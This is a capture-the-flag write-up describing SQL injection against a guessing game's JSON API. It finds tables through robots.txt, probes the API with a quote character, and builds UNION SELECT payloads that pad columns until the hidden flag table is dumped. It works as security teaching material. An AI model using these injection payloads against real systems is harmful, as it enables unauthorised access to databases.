 # Examining Payload
When making a guess, it sends the information in a payload that is in the following JSON format:
```json
{
    "characters":"CHARACTER",
    "object":"OBJECT",
    "place":"PLACE"
}
```

# Breaking the Payload
We can then attempt to break this and see what results we get.

If we pass in the JSON:
```json
{"place":"\""}
```

We will get a SQL Lite error (remember to escape the character in order to keep it as a valid JSON). 

This means the site will probably be vulnerable to SQL injection.

# Recon for Usable Info
If we look at the robots.txt, we can see the following names of tables:
```
Disallow: /api/characters
Disallow: /api/objects
Disallow: /api/places
Disallow: /api/answer
Disallow: /api/flag
```

We can access all but `/api/answer` and `/api/flag` which tells us we do not have access to those tables.

# Crafting a Better Payload
We can then attempt to access the flag table by using a SQL `UNION` inject:
```json
{"place":"\" UNION SELECT flag from flag;"}
```

This gives us an error saying:
```
Error: SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result column
```

# Refining the Payload
This means that the tables are not the same size, we can then try modified injects by adding more columns.
```json
{"place":"\" UNION SELECT flag,flag,flag,flag from flag;"}
```

This will then output the flag. 